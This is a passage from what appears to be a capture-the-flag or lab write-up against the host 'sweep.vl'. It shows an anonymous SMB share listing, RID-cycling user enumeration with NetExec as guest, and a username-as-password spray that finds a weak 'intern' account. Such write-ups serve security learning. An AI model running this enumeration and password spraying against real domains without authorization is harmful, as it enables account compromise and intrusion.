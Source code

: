 I check the files inside the `DefaultPackageShare$` share which I found couble of files but nothing useful here.
```
smbclient \\\\sweep.vl\\DefaultPackageShare$ -N
```
![00f157057ec68bba4814024630e10a7d.png](/resources/00f157057ec68bba4814024630e10a7d.png)

Since guest account is enabled and can connect to shares then I use RID cycling method with NetExec to create user list and I can use this list to conduct password spraying attack when I obtained user password later.
```
nxc smb sweep.vl -u 'guest' -p '' --rid-brute | grep SidTypeUser | cut -d'\' -f2 | cut -d' ' -f1 | tee users
```
![932d5417345c425019a6af975c0b2ae4.png](/resources/932d5417345c425019a6af975c0b2ae4.png)

But since I don't have any password to work on yet so I tried with the simple combination `user:user` which I found that "intern" user using the same password as its username.
```
nxc smb sweep.vl -u users -p users --no-bruteforce --continue-on-success
```